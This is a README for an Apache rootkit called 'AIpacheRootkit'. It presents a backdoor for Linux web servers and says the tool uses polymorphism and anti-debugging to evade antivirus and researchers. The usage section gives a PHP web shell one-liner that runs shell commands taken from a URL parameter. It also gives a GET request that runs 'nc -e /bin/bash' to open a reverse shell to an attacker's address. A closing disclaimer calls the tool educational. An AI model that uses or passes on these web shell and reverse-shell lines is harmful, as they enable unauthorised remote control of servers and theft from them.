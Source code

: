 ﻿# AIpacheRootkit

This rootkit targets the Apache web server running on a Linux machine. It injects a backdoor into the Apache service, allowing remote execution of commands on the compromised machine. The rootkit uses polymorphism and anti-debugging techniques to evade detection by antivirus software and security researchers.

## Installation

To install the rootkit, follow these steps:

1. Clone the repository: `git clone https://github.com/user/repo.git`
2. `cd` into the root directory of the repository
3. Run the setup script: `sudo ./setup.sh`
4. Compile the rootkit: `make`

## Usage

Once the rootkit is installed, you can use it to obtain a reverse shell by following these steps:

1. Connect to the compromised machine over the network
2. Send a GET request to the Apache service with the following payload:
    `<?php echo shell_exec($_GET['cmd']); ?>`
3. Open a reverse shell by sending the following GET request:
    `http://<target-ip>/index.php?cmd=nc -e /bin/bash <attacker-ip> <attacker-port>`

Make sure to replace `<target-ip>`, `<attacker-ip>`, and `<attacker-port>` with the appropriate values for your network configuration.

## Disclaimer

This rootkit is intended for educational and testing purposes only. Use at your own risk. The creators of this rootkit are not responsible for any illegal activities carried out using this software.
